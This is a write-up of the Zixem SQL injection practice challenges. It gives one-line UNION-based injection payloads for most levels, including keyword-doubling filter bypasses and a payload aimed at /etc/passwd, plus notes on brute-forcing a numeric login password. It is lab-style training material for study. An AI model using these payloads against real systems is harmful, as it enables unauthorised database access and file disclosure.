 ## Zixem SQLi

[[Zixem SQLi](http://www.zixem.altervista.org/SQLi/)]

> #### RULES
>
> Use only **UNION BASED!**
>
> Your mission is to select only the **version** & **user** and to **take screenshot** as proof.

## Write Up

#### SQLi challenges

| [Level 1](http://www.zixem.altervista.org/SQLi/level1.php?id=1) | Super Easy |
| ------- | ---------- |

 `?id=-9999 union select version(),user(),3; --`

| [Level 2](http://www.zixem.altervista.org/SQLi/level2.php?showprofile=4) | Easy |
| ------- | ---------- |

 `?showprofile=-9999' union select user(),version(),3,4 -- -`

| [Level 3](http://www.zixem.altervista.org/SQLi/level3.php?item=3) | Medium |
| ------- | ---------- |

 `?item=-9999' unionon select user(),version(),3,4; -- -`

| [Level 4](http://www.zixem.altervista.org/SQLi/level4.php?ebookid=7) | Normal |
| ------- | ---------- |

 `?ebookid=-9999' union select user(),version(),3,4,5; -- -`

| [Level 7](http://www.zixem.altervista.org/SQLi/level7.php?id=1) | Medium |
| ------- | ---------- |

In viewsource mode:
 
 `?id=-9999 union select 1,user(),3 ; -- -`
 
 `?id=-9999 union select 1,version(),3 ; -- -`

| [Level 8](http://www.zixem.altervista.org/SQLi/lvl8.php?id=1) | Hard |
| ------- | ---------- |

 `?id=(-9999)UNION(SselectELECT(user()),version(),3)`

| [Level 9](http://www.zixem.altervista.org/SQLi/lvl9.php?id=1) | Medium |
| ------- | ---------- |

 `?id=-9999' union select('../etc/passwd'),2 ; -- -`

| [Level 10](http://www.zixem.altervista.org/SQLi/lvl10.php?x=ISwwYGAKYAo%3D) | Pro |
| ------- | ---------- |

#### BF challenges

| [Level 5](http://www.zixem.altervista.org/SQLi/login_lvl5.php) | Hard |
| ------- | ---------- |

First, viewsource this login page and scroll down to end, we will find those red lines.

```
If you want hint, enter this password.
------
~~~~~~~~~~~~~~~~~~ password: d1fd6ef9af6cb677e09b1b0a68301e0c ~~~~~~~~~~~~~~~~~~~~~~
You can use my md5Cracker .
~~~~~~~~~~~~~~~~~~~~~~~~here: md5cracker.php~~~~~~~~~~~~~~~~~
```
Then enter this url `http://www.zixem.altervista.org/SQLi/md5cracker.php?hash=d1fd6ef9af6cb677e09b1b0a68301e0c` and we find the first password. Enter it to login page and get hint.

Now we know the passwords contains **only numbers**. Let's make some code to bruteforce the login page.

Then we can get the password and see the result.

#### SQLi-Blind challenges

| [Level 6](http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10) | Expererinced |
| ------- | ---------- |
